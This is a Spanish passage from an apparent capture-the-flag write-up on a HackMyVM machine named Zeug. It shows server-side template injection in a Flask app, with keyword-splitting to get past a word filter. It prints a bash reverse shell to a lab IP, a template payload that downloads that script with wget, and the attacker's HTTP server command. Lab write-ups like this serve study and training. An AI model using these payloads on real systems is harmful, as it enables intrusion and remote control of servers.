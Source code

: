 Como antes he dicho, esta aplicación tiene filtros que nos impiden escribir según qué palabras. Para poder pasarlos la función **`Eval`** nos viene muy bien ya que evalua la expresión dada y la ejecuta. Separamos las líneas para poder burlar el filtro de protección.

Así sería la línea que estamos ejecutando sin separarla:

```python
__import__('os').popen('whoami').read()
```

Estamos importando el módulo **`os`** para tener la función **`popen`**, función que ejecutará el comando que le hayamos pasado (**`whoami`**):

![SSTI Whoami](/assets/img/imgs/zeug/ssti_whoami.png)

¡Perfecto, podemos ejecutar comandos! Ahora llega la parte a la que estábamos esperando, poder acceder a la máquina.

Para comenzar me creé un fichero **`SH`**. Este fichero, al ser ejecutado, enviaría una **`Shell`** a mi máquina:

> No pongáis de nombre **`shell.sh`**. La palabra **`Shell`** está prohibida.
{: .prompt-warning }

```shell
bash -i >& /dev/tcp/192.168.1.103/4444 0>&1
```

Una vez tengamos el fichero crearemos el siguiente documento **`HTML`**:

```html
<html>
   <head>
   </head>
   <body>
      &#123;&#123; config.__class__.from_envvar.__globals__.__builtins__.eval("__impor" + "t__('o' + 's').pop" + "en('wget http://192.168.1.103/shel.sh').read()") &#125;&#125;
   </body>
</html>
```

Por último nos crearemos un pequeño servidor en **`Python`**. En mi caso lo haré por el puerto **`80`** para mayor simpleza:

```shell
┌──(root㉿kali)-[~/…/VMs/HMV/Zeug/exploits]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
